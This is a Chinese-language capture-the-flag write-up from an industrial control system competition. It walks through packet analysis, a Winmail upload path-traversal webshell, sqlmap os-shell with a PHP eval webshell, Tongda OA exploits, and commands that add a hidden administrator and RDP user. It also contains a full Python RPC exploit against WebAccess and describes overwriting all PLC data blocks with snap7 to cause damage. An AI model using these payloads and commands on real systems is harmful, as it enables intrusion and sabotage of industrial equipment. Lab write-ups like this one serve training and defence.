# 签到 1

查看流量包, 过滤 modbus 协议, 一个一个翻，发现 flag





---

# 签到 2

notepad++ 打开, 直接搜 s7comm, 一个一个 IP 提交试过去, 发现 flag IP



---

# email

在 F12 源码中发现目标是 winmail 6.1，这个版本存在一个普通用户上传 getshell 的漏洞

并且在 F12 源码中发现测试账号



登录系统后上传文件保存到网盘，并抓取数据包

通过修改 ftpfolder 值为 “Ly4uLy4uL3dlYm1haWwvd3d3Lw==” 代表 “/../../webmail/www/”



访问 http://10.100.101.8:8080/shell.php 即可获取webshell,在 administrator 目录下发现 flag



---

# web

搜索框注入




sqlmap 直接拿 os-shell
```
python3.exe sqlmap.py -r e:\c.txt --os-shell
```

输入 cmd 命令生成 webshell

`echo ^<?php eval($_POST["shell"]); ?^> >1.php`

蚁剑连接 1.php, 上 cs 提权


```
net user a Abcd1234 /add
net localgroup administrators a /add
net localgroup "Remote Desktop Users" a /add
```

输入上面的命令生成 rdp 用户

修改 admin 用户密码，rdp 登录，一样的步骤 如果找不到可以上传一个 everything 搜索 flag.txt

---

# oa

存在一个通达 OA 任意用户登录漏洞，用 poc 直接打可以进后台

通过通达 OA 任意文件上传漏洞，本地文件包含漏洞





成功拿 shell, 加用户



```
net user a Abcd1234 /add
net localgroup administrators a /add
net localgroup "Remote Desktop Users" a /add
```

rdp 连接 a 用户，打开用户管理，修改 administrator 用户密码，rdp 登录用户 到回收站里拖 flag 文件到桌面即可



---

# mes

这题我们 RDP 在 web 的机器上做的，扫描后面的一个 C 段，发现 mes 的 IP 地址, 然后根据提示用 webaccess 的溢出漏洞打



```py
#!/usr/bin/python2.7

import sys, struct
from impacket import uuid
from impacket.dcerpc.v5 import transport

def call(dce, opcode, stubdata):
  dce.call(opcode, stubdata)
  res = -1
  try:
    res = dce.recv()
  except Exception, e:
    print "Exception encountered..." + str(e)
    sys.exit(1)
  return res

if len(sys.argv) != 2:
  print "Provide only host arg"
  sys.exit(1)

port = 4592
interface = "5d2b62aa-ee0a-4a95-91ae-b064fdb471fc"
version = "1.0"

host = sys.argv[1]

string_binding = "ncacn_ip_tcp:%s" % host
trans = transport.DCERPCTransportFactory(string_binding)
trans.set_dport(port)

dce = trans.get_dce_rpc()
dce.connect()

print "Binding..."
iid = uuid.uuidtup_to_bin((interface, version))
dce.bind(iid)

print "...1"
stubdata = struct.pack("<III", 0x00, 0xc351, 0x04)
call(dce, 2, stubdata)

print "...2"
stubdata = struct.pack("<I", 0x02)
res = call(dce, 4, stubdata)
if res == -1:
  print "Something went wrong"
  sys.exit(1)
res = struct.unpack("III", res)

if (len(res) < 3):
  print "Received unexpected length value"
  sys.exit(1)

print "...3"
# ioctl 0x2711
stubdata = struct.pack("<IIII", res[2], 0x2711, 0x204, 0x204)
command = "..\\..\\windows\\system32\\cmd.exe /c 命令"
#net user a Abcd1234 /add
#net localgroup administrators a /add
#net localgroup "Remote Desktop Users" a /add

fmt = "<" + str(0x204) + "s"
stubdata += struct.pack(fmt, command)
call(dce, 1, stubdata)

print "\nDid it work?"

dce.disconnect()
```

rdp 连接 a 然后改密码和上面的几题 web 一样用 everything 找 flag.txt, 但找出来的不对，后来发现桌面壁纸是个 base64，解一下得到 flag


---

# ics3

拿下 mes 这台后,他桌面上有个 rdp 的密码文件，直接上 goby 扫C段，发现 mes 同C段后面一位的机器开着 3389，直接连接

连接后 netstat -ano 查看主机连接，发现该主机连接另一台主机的 8080 口



访问发现是 openplc 管理页面，默认口令就是 openplc openplc

上传 st 文件后，在 用户那边看到有个 openplc@openplc.com ，尝试提交，成功



---

# 附加题1

RDP 扫描弱口令 直接连接



上去后有 web 的账号密码，goby 扫一下 web 就有防火墙的地址了，上去关掉策略就行



---

# 附加题2

从流量包题分析出 S7-200 机器为 192.168.1.3 直接用 snap7 工具连接，要slot选择为1

---

# 附加题3

用 snap7 工具连接 192.168.1.3 后，直接通过 DB FILL 覆写所有区块，达到破坏性效果


---

# 附加题4

用 snap7 工具连接 192.168.1.3 后，直接通过 DB FILL 覆写所有区块，达到破坏性效果


---

# 附加题5

这个我猜测和 3、4 解法一样，只是可惜现场没时间了。
